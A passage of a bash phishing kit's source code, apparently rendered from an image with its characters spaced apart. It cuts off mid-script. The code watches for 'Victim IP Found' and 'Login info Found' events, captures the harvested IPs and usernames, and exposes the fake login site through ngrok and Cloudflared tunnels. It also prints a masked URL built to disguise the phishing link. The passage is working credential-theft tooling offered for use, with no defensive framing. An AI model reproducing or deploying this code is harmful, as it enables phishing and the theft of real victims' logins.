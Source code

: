  	 	 	 e c h o   - e   " \ n \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   V i c t i m   I P   F o u n d   ! " 
 	 	 	 c a p t u r e _ i p 
 	 	 	 r m   - r f   . s e r v e r / w w w / i p . t x t 
 	 	 f i 
 	 	 s l e e p   0 . 7 5 
 	 	 i f   [ [   - e   " . s e r v e r / w w w / u s e r n a m e s . t x t "   ] ] ;   t h e n 
 	 	 	 e c h o   - e   " \ n \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   L o g i n   i n f o   F o u n d   ! ! " 
 	 	 	 c a p t u r e _ c r e d s 
 	 	 	 r m   - r f   . s e r v e r / w w w / u s e r n a m e s . t x t 
 	 	 f i 
 	 	 s l e e p   0 . 7 5 
 	 d o n e 
 } 
 
 # #   S t a r t   n g r o k 
 s t a r t _ n g r o k ( )   { 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   I n i t i a l i z i n g . . .   $ { G R E E N } (   $ { C Y A N } h t t p : / / $ H O S T : $ P O R T   $ { G R E E N } ) " 
 	 {   s l e e p   1 ;   s e t u p _ s i t e ;   } 
 	 e c h o   - n e   " \ n \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   L a u n c h i n g   N g r o k . . . " 
 
         i f   [ [   ` c o m m a n d   - v   t e r m u x - c h r o o t `   ] ] ;   t h e n 
                 s l e e p   2   & &   t e r m u x - c h r o o t   . / . s e r v e r / n g r o k   h t t p   " $ H O S T " : " $ P O R T "   >   / d e v / n u l l   2 > & 1   & 
         e l s e 
                 s l e e p   2   & &   . / . s e r v e r / n g r o k   h t t p   " $ H O S T " : " $ P O R T "   >   / d e v / n u l l   2 > & 1   & 
         f i 
 
 	 {   s l e e p   8 ;   c l e a r ;   b a n n e r _ s m a l l ;   } 
 	 n g r o k _ u r l = $ ( c u r l   - s   - N   h t t p : / / 1 2 7 . 0 . 0 . 1 : 4 0 4 0 / a p i / t u n n e l s   |   g r e p   - o   " h t t p s : / / [ - 0 - 9 a - z ] * \ . n g r o k . i o " ) 
 	 n g r o k _ u r l 1 = $ { n g r o k _ u r l # h t t p s : / / } 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   U R L   1   :   $ { G R E E N } $ n g r o k _ u r l " 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   U R L   2   :   $ { G R E E N } $ m a s k @ $ n g r o k _ u r l 1 " 
 	 c a p t u r e _ d a t a 
 } 
 
 
 # #   D O N ' T   C O P Y   P A S T E   W I T H O U T   C R E D I T   D U D E   : ' ) 
 
 # #   S t a r t   C l o u d f l a r e d 
 s t a r t _ c l o u d f l a r e d ( )   {   
                 r m   . c l d . l o g   >   / d e v / n u l l   2 > & 1   & 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   I n i t i a l i z i n g . . .   $ { G R E E N } (   $ { C Y A N } h t t p : / / $ H O S T : $ P O R T   $ { G R E E N } ) " 
 	 {   s l e e p   1 ;   s e t u p _ s i t e ;   } 
 	 e c h o   - n e   " \ n \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   L a u n c h i n g   C l o u d f l a r e d . . . " 
 
         i f   [ [   ` c o m m a n d   - v   t e r m u x - c h r o o t `   ] ] ;   t h e n 
 	 	 s l e e p   2   & &   t e r m u x - c h r o o t   . / . s e r v e r / c l o u d f l a r e d   t u n n e l   - u r l   " $ H O S T " : " $ P O R T "   - - l o g f i l e   . c l d . l o g   >   / d e v / n u l l   2 > & 1   & 
         e l s e 